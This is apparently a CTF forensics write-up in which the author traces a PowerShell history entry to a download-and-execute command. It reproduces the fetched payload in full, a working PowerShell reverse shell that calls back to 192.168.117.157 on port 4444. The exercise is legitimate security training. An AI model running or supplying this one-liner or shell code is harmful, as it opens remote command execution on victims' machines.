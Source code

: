 ### LOCATE THE PAYLOAD

---

Medium | Forensics, IC | 75 points

---

### Description

The attackers seem to have gotten a foothold on our system. And executed some malicious code. We need to know what the code does.

---

### First Impressions

We are given four files,

- unlockthecity.json
- unlockthecity.zip
- unlockthecity.pcapng
- rockyou.txt

I decided to start by unzipping the zip folder. Inside seems to be multiple folders and files from a windows 10 machine. I ran some grep searches on the contents and got a hit for “hack” which shows a [https://evilai.challenge.hackazon.org/update.ps1](https://evilai.challenge.hackazon.org/update.ps1) link in the Users/unlockthecity/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt file.

This ConsoleHost file seems to be a log of commands run in powershell. The context of our URL in the file is echo IEX(New-Object Net.WebClient).DownloadString('[https://evilai.challenge.hackazon.org/update.ps1](https://evilai.challenge.hackazon.org/update.ps1)') | powershell -noprofile -

Googling seems to reveal that this command runs a script on a remote server and outputs its result to stdout. The command only works in my powershell by removing the pipe, when I do, I get this, our flag for part 1 of this challenge! 

```php
└─PS> echo IEX(New-Object Net.WebClient).DownloadString('https://evilai.challenge.hackazon.org/update.ps1%27)
IEX
$TCPClient = New-Object Net.Sockets.TCPClient('192.168.117.157', 4444);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()

# CTF{You_Found_The_EVIL_AI_Payload}
```
